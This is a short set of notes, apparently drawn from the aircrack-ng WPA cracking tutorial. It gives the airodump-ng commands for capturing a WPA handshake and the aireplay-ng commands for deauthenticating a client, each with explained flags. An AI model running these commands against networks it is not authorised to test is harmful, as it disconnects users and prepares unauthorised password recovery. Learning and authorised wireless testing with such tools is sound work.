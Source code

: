 [Source](https://www.aircrack-ng.org/doku.php?id=cracking_wpa)

1. Injection test
2. start airodump-ng to collect authentication handshake
```bash
sudo airodump-ng wlp0s20f0u1
```
3. Check channel of the BSSID that we want and restart airodump-ng on that channel
```bash
sudo airodump-ng wlp0s20f0u1 --channel 1
```
4. deauthenticate the wireless client
  - Open another console session and enter:
      ```bash
      # -a -> access point
      # -c -> client to deauth
      aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:FD:FB:C2 wlp0s20f0u1
      ```

## Other

```bash
airodump-ng -c 11 --bssid 00:14:6C:7E:40:80 -w psk ath0
```
- -c 11 is the channel for the wireless network
- --bssid 00:14:6C:7E:40:80 is the access point MAC address. This eliminates extraneous traffic.
- -w psk is the file name prefix for the file which will contain the IVs.
- ath0 is the interface name.

```
aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:FD:FB:C2 ath0
```
- -0 means deauthentication
- 1 is the number of deauths to send (you can send multiple if you wish)
- -a access point
- -c client to deauth
- ath0 is the interface name
